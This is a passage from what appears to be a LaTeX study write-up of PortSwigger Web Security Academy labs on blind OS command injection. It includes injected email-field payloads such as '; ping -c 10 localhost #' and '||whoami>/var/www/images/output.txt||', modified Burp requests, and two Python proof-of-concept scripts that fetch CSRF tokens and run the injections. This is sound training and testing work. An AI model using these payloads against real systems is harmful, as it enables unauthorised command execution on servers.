      
\includegraphics[width=0.7\textwidth]{../figure/figure4.png}
      \caption{Result of the ping delay payload}
      \label{fig:ping-result}
      \end{figure}

    \end{enumerate}

    \newpage
    \item[\textbf{Solution using Python script}:] \leavevmode\par
    The following Python script is a PoC that inserts a payload into the feedback form’s \texttt{email} field to induce a time delay, in order to verify whether the server interprets that input as a shell command (time-based command-injection).
    The script first extracts the CSRF token from the feedback page, then sends a value containing the command ping -c 10 localhost and judges vulnerability based on the response delay (10 seconds).
    All requests are configured to be sent through a local proxy (e.g., Burp Suite), allowing traffic analysis.

    \begin{lstlisting}[label={lst:modified-request},caption={Python script for problem 2}, showspaces=false,showstringspaces=false]
    import requests
    import sys
    import urllib3
    from bs4 import BeautifulSoup

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    proxies = { 'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080' }

    def get_crsf(s, url):
        feedback_path = "/feedback"
        r = s.get(url + feedback_path, verify=False)
        soup = BeautifulSoup(r.text, 'html.parser')
        csrf = soup.find('input')['value']
        return csrf

    def check_command_injection(s, url):
        submit_feedback_path = "/feedback/submit"
        command_injection = "test@test.com; ping -c 10 localhost #"
        csrf_token = get_crsf(s, url)   # Retrieve CSRF in order to send a valid request
        data = { 'csrf': csrf_token, 'name': "test", 'email': command_injection,
                'subject': "testing", 'message': "This is a test"}
        res = s.post(url + submit_feedback_path, data=data, verify=False, proxies=proxies)
        if (res.elapsed.total_seconds() >= 10):
            print("(+) Email field vulnerable to time-based command injection")
        else:
            print("(-) Email field not vulnerable to time-based command injection")

    def main():
        if len(sys.argv) != 2:
            print(f"(-) Usage: {sys.argv[0]} <url>")
            print(f"(-) Example: {sys.argv[0]} www.example.com")
            sys.exit(1)

        url = sys.argv[1]
        print("(+) Checking if email parameter is vulnerable to time-based command injection...")

        s = requests.Session()
        check_command_injection(s, url)


    if __name__ == '__main__':
        main()
  \end{lstlisting}

    \newpage
    \item[Additional analysis: Why only the Email field works while others do not]\leavevmode\par
    First, the reason why only the Email field undergoes format validation can be determined by inspecting the HTML source using Chrome's developer tools. As shown in the source below, the Email field has the attribute \texttt{type="email"}. This means the field uses the built-in HTML5 email format validation.

    \begin{lstlisting}[label={lst:modified-request},caption={HTML source code of the feedback form}]
      ...
      <form id="feedbackForm" action="/feedback/submit" method="POST" enctype="application/x-www-form-urlencoded">
                        <input required type="hidden" name="csrf" value="o0ntQ30pBpol2oz7yfxFirIbXBangH4v">
                        <label>Name:</label>
                        <input required type="text" name="name">
                        <label>Email:</label>
                        <input required type="email" name="email">
                        <label>Subject:</label>
                        <input required type="text" name="subject">
                        <label>Message:</label>
                        <textarea required rows="12" cols="300" name="message"></textarea>
                        <button class="button" type="submit">
                            Submit feedback
                        </button>
                        <span id="feedbackResult"></span>
                    </form>
      ...
    \end{lstlisting}

    However, in our exercise we use Burp Suite, so we can bypass the browser-level validation. Even so, when we send the following request an error message is returned.
    \begin{lstlisting}[label={lst:email-invalid},caption={Request where a command inserted into the Email field is rejected}]
    ...
    csrf=o0ntQ30pBpol2oz7yfxFirIbXBangH4v&name=potato&email=potato||&subject=potato&message=%E3%84%B4%E3%85%81%E3%85%87%E3%84%B4%E3%85%81%E3%85%87
    \end{lstlisting}
    In the example above the error message \texttt{Failed to submit feedback: "Could not save"} is returned. From this we can infer the following reasons why a command inserted into the Email field is likely to be passed to and executed by the shell:
    Other fields (e.g., Name, Subject, Message) are likely only subject to simple database storage and server-side validation and are not forwarded to a shell.  
    By contrast, the Email field may be used for domain-related checks (for example, name-server or routing checks after the '@' portion) that call external utilities such as \texttt{nslookup} or \texttt{ping}.  
    Alternatively, there might be logic that invokes a shell command to send mail, or the server may pass the \texttt{email} value to an external utility or script and the call fails, causing an exception.  
    Therefore, it is likely that input inserted into the Email field can be forwarded to and executed by a shell. However, the exact internal behavior cannot be determined without analyzing the server source code.

      \begin{figure}[htbp]
      \centering
      
\includegraphics[width=0.7\textwidth]{../figure/figure5.png}
      \caption{"Could not save" error message}
      \label{fig:could-not-save}
      \end{figure}

\end{description}

\newpage
\subsection*{Lab: Blind OS command injection with output redirection}
\begin{description}
  \item[\textbf{Lab Description}:] This exercise demonstrates a blind OS command injection vulnerability in the feedback submission functionality.
  \item[\textbf{Key Points}:]\leavevmode\par
    \begin{itemize}
      \item The application executes shell commands that include user-supplied input, but the standard output of those commands is not returned directly in the HTTP response.
      \item The web server exposes a writable directory for images at \texttt{/var/www/images/}.
    \end{itemize}

  \item[\textbf{Objective}:] \leavevmode\par
    \begin{itemize}
      \item The application serves images from this directory. Redirect the output of an injected command to a file in this folder, then retrieve that file via an image URL to view its contents. The goal is to execute \texttt{whoami} and read its output.
    \end{itemize}

  \item[\textbf{Background Knowledge}:]\leavevmode\par
    \begin{itemize}
      \item Redirection: ways to redirect command output to a file.
      \item Image URL retrieval: how to request an image resource from the web server.
    \end{itemize}

  \item[\textbf{Solution using Burpsuite}:] \leavevmode\par
    As in Lab 3, intercept the feedback submission request with Burp Suite and inject \texttt{whoami}. This time, redirect the command output to a file under \texttt{/var/www/images/} and retrieve that file via the image-serving endpoint. The procedure is as follows.
  \begin{enumerate}
    \item Intercept the feedback submission request with Burp Suite.
    \item Modify the Email field in the request body to include \texttt{whoami > /var/www/images/whoami.txt}.
    
    \begin{lstlisting}[label={lst:blind-original-request},caption={Original request}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=potato%40potato.com&subject=potato&message=afsdfsdfsd
    \end{lstlisting}

    \begin{lstlisting}[label={lst:modified-request},caption={Modified request}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=||whoami>/var/www/images/output.txt||&subject=potato&message=afsdfsdfsd
    \end{lstlisting}
    Here the \texttt{>} operator redirects the output of \texttt{whoami} to \texttt{/var/www/images/output.txt}.
    \item Forward the modified request. Successful submission is indicated by the message \texttt{Thank you for submitting feedback!}.
    \item To retrieve the file, navigate to the product page and request the filename parameter corresponding to \texttt{output.txt}.
    \item Example: replace the original image request
    \begin{lstlisting}[label={lst:modified-request},caption={Original image request}]
    GET /image?filename=36.jpg HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}
    with
    \begin{lstlisting}[label={lst:modified-request},caption={Modified image request}]
    GET /image?filename=output.txt HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}

    \newpage
    \item The final result can be observed as shown below.
    \begin{figure}[htbp]
      \centering
      
\includegraphics[width=0.7\textwidth]{../figure/figure6.png}
      \caption{Result of Lab 3}
      \label{fig:whoami-result-2}
      \end{figure}

  \end{enumerate}

  \newpage
  \item[\textbf{Solution using Python script}:] \leavevmode\par
    The following Python script is a PoC that sends a payload to the feedback form's \texttt{email} field to execute the \texttt{whoami} command and redirect its output to \texttt{/var/www/images/output.txt}.
    It then retrieves that file via the image URL to view the command output.

    \begin{lstlisting}[label={lst:modified-request},caption={Python script for problem 3}, showspaces=false,showstringspaces=false]
    import requests
    import sys
    import urllib3
    from bs4 import BeautifulSoup

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    proxies = { 'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080' }

    # Get the CSRF in the /feedback page before exploiting the form vulnerability
    def get_csrf(s, url):
        feedback_path = "/feedback"
        r = s.get(url + feedback_path, verify=False)
        soup = BeautifulSoup(r.text, 'html.parser')
        csrf = soup.find('input')['value']
        return csrf

    def check_command_injection(s, url):
        submit_feedback_path = "/feedback/submit"
        command_injection = "test@test.com; whoami > /var/www/images/output-py.txt #"
        csrf_token = get_csrf(s, url)   # Retrieve CSRF in order to send a valid request
        data = { 'csrf': csrf_token, 'name': "test", 'email': command_injection,
                'subject': "testing", 'message': "This is a test"}
        res = s.post(url + submit_feedback_path, data=data, verify=False, proxies=proxies)
        print("(+) Verifying if command injection exploit worked...")

        # Verify command injection
        file_path = "/image?filename=output-py.txt"
        res = s.get(url + file_path, verify=False, proxies=proxies)
        if (res.status_code == 200): # All good
            print("(+) Command injection succesful!")
            print(f"(+) The following is the content of the command: {res.text}")
        else:
            print("(-) Command injection was not succesful.")

    def main():
        if len(sys.argv) != 2:
            print(f"(-) Usage: {sys.argv[0]} <url>")
            print(f"(-) Example: {sys.argv[0]} www.example.com")
            sys.exit(1)

        url = sys.argv[1]
        print("(+) Exploiting blind command injection in email field...")

        s = requests.Session()
        check_command_injection(s, url)


    if __name__ == '__main__':
        main()
    \end{lstlisting}

\end{description}

\end{document}
